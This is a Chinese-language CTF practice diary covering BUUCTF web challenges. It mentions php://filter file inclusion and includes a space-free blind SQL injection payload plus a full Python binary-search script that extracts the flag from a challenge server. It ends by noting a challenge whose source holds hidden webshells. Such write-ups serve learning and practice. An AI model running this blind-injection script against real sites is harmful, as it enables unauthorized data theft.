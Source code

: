 # buu刷题（摸鱼）日记2

## [ACTF2020 新生赛]Include

居然忘了php://filter伪协议，真是屑啊。

很简单，直接读flag

## [CISCN2019 华北赛区 Day2 Web1]Hack World

sql注入自古弱项，研究一下

先上burp炸，用sql insert list 炸。

发现过滤单引号 双引号 注释符号 空格等，并且返回中有布尔值

应该是个盲注

（接下来我就做不来了（毕竟我真的菜））

------------

分析一下wp里的payload:

```php
(ascii(substr((select(flag)from(flag)),1,1))<128)
```

selec flag from flag不多说，从表里找字段

找出来的字段显然没有回显，需要进行判断。刚好由于弱类型，如果是true就会以1带入，如果false就是0

然而输入0和1回显是不一样的，就可以创造盲注的契机

试一下二分法写了个jo本

```python
import requests

url="http://cb7ec2dc-f0ba-46bf-b97e-800896e15726.node3.buuoj.cn/index.php"

ch = 0
flag = ""

for i in range(1,50):
    high = 128
    low = 32
    mid = (high + low) // 2
    while(high>low):
        
        payload = {"id":"(ascii(substr((select(flag)from(flag)),%d,1))<%d)"%(i,mid)}
        r = requests.post(url=url,data=payload).text
        if "glzjin" in r:
            high = mid 
        else:
            low = mid + 1

        mid = (high + low) // 2

    # print(mid)
    flag += chr(int(mid-1))
    print(flag)

```

二分法是好文明,一分钟左右出flag

## [强网杯 2019]高明的黑客

强网杯的题目各个都是高达（我是废物）

点开题目

# 雁过留声，人过留名，此网站已被黑

我也是很佩服你们公司的开发，特地备份了网站源码到www.tar.gz以供大家观赏



下载源码以后把我吓傻了

这tm都是啥

毫不犹豫去看wp

看到[赵师傅的博客](https://zhaoj.in/read-5873.html)

其实思路很简单，自带webshell，自己去找，考验写py脚本能力了（我不太行，萎了）